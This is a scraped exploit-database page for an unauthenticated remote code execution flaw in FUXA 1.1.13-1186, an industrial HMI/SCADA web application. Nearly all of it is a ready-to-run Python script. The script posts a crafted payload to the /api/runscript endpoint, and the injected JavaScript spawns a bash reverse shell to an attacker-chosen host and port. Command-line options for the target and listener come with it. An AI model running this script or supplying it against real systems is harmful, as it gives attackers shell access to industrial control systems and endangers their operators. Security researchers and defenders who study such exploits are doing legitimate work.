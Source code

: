 ```yaml
---
title: FUXA 1.1.13-1186 Remote Code Execution exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:171956&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-04-21
fetch_date: 2025-10-04T11:32:59.774963
---
```


# FUXA 1.1.13-1186 Remote Code Execution exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for FUXA 1.1.13-1186 Remote Code Execution

2023-04-20 | CVSS 6.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:171956
# Exploit Title: FUXA V.1.1.13-1186- Unauthenticated Remote Code Execution (RCE)
# Date: 18/04/2023
# Exploit Author: Rodolfo Mariano
# Vendor Homepage: https://github.com/frangoteam/FUXA
# Version: FUXA V.1.1.13-1186 (current)

from argparse import RawTextHelpFormatter
import argparse, sys, threading, requests

def main(rhost, rport, lhost, lport):
url = "http://"+rhost+":"+rport+"/api/runscript"
payload = {
"headers":
{
"normalizedNames":{},
"lazyUpdate": "null"
},
"params":{
"script":{
"parameters":[
{
"name":"ok",
"type":"tagid",
"value":""
}
],
"mode":"",
"id":"",
"test":"true",
"name":"ok",
"outputId":"",
"code":"require('child_process').exec('/bin/bash -c \"/bin/sh -i >& /dev/tcp/%s/%s 0>&1\"')" % (lhost,lport)
}
}
}
response = requests.post(url, json=payload)
args = None
parser = argparse.ArgumentParser(formatter_class=RawTextHelpFormatter, usage="python exploit.py --rhosts <ip> --rport <rport>--lport <port>")
parser.add_argument('--rhost', dest='rhost', action='store', type=str, help='insert an rhost')
parser.add_argument('--rport', dest='rport', action='store', type=str, help='insert an rport', default=1881)
parser.add_argument('--lhost', dest='lhost', action='store', type=str, help='insert an lhost')
parser.add_argument('--lport', dest='lport', action='store', type=str, help='insert an lport')

args=parser.parse_args()
main(args.rhost, args.rport, args.lhost, args.lport)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)